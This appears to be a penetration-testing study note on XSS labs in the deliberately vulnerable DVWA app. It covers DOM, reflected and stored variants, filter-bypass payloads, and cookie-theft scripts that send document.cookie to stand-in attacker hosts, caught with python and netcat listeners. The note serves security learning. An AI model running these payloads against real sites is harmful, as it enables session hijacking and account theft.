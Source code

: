 ## Cross-Site Scripting (XSS)

- **Goal**: Abuse JavaScript injection via user input.
    
- **Types**:
    
    - **DOM-Based**: JS code parses URL or DOM and injects it into the page.
        
    - **Reflected**: Input reflected in the response without proper encoding.
        
    - **Stored**: Input saved on the server and shown to all users.
    

---

## Lab: DOM-Based XSS (DVWA - Low Security)

    
- Input in URL param `?default=...` is inserted directly via JS
    
- Vulnerable Code:
    

```js
var lang = document.location.href.substring(document.location.href.indexOf("default=")+8);
document.write("<option value='" + lang + "'>" + decodeURI(lang) + "</option>");
```

- ❗ **Why it’s vulnerable**: No input validation or encoding. `document.write()` directly inserts untrusted input.
    

### Payload:

```html
?default=<script>alert(1)</script>
```

### More Dangerous:

```html
?default=<script>document.location='http://attacker.com?'+document.cookie</script>
```

---

## Lab: DOM-Based XSS (DVWA - Medium Security)

- Backend PHP filters `<script` using:
    

```php
if (stripos ($default, "<script") !== false) {
    header ("location: ?default=English");
}
```

### Bypass Payload:

```html
?default=<img src=x onerror="alert(1)">
```

---

## Reflected XSS (DVWA - Low Security)
    
- Payload in URL param:
    
```html
?name=<script>alert(1)</script>
```

---

## Reflected XSS (DVWA - Medium Security)

- Filters `<script>` tag only:
    

```php
$name = str_replace( '<script>', '', $_GET[ 'name' ] );
```

### Bypass:

- Obfuscate tag:
    
```html
<scr<script>ipt>alert(1)</scr<script>ipt>
```

- Use `<img>` tag:
    
```html
<img src=x onerror="alert(1)">
```

---

## Stored XSS (DVWA - Low)
    
- Name & Message stored and rendered back
    
### Payload:

```html
<script>alert(1)</script>
```

---

## Stored XSS (DVWA - Medium)

The website properly encodes the `message` field but not the `name` field, making it vulnerable.
By removing the front-end maximum length restriction on the `name` field using browser developer tools, an attacker can insert a full payload.    

---

## Stealing PHP Session (PHPSESSID)

- Cookie stores login session in PHP
    
- If not set as `HttpOnly`, JS can access it
    

### Stealing Payload:

```html
<script>fetch("http://attacker-ip:8002/"+document.cookie);</script>
```

**Listener**

You can capture incoming HTTP requests using either a Python HTTP server or Netcat.

- Using Python HTTP Server:

```bash
python3 -m http.server 8002
```

**Example response:**

```http
192.168.1.14 - - [25/Apr/2025 01:10:38] "GET /wp-settings-time-1=1744574917;%20PHPSESSID=07cbdbb9a0fb5caf39249427378cfbb4;%20security=low HTTP/1.1" 404 -
```

---

- Using Netcat (nc):

```bash
nc -nvlp 8002
```

**Example output:**

```http
listening on [any] 8002 ...
connect to [192.168.1.14] from (UNKNOWN) [192.168.1.14] 40994
GET /?cookie=wp-settings-time-1%3D1744574917%3B%20PHPSESSID%3D07cbdbb9a0fb5caf39249427378cfbb4%3B%20security%3Dlow HTTP/1.1
Host: 192.168.1.14:8002
Connection: keep-alive
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/135.0.0.0 Safari/537.36
Accept: */*
Sec-GPC: 1
Accept-Language: en-US,en;q=0.5
Origin: http://ubuntu-server:8001
Referer: http://ubuntu-server:8001/
Accept-Encoding: gzip, deflate
```

---

## Final Notes:

- Avoid using **automated tools** like ZAP for stored XSS fuzzing in production environments — they may generate **hundreds of entries** (e.g., comments), making cleanup difficult for the customer.
- Focus on **precise and minimal payloads** to demonstrate the vulnerability clearly without overwhelming the system.
- Always test **in context** — check whether cookies are accessible via JavaScript (missing `HttpOnly`), or whether scripts are reflected/stored/rendered.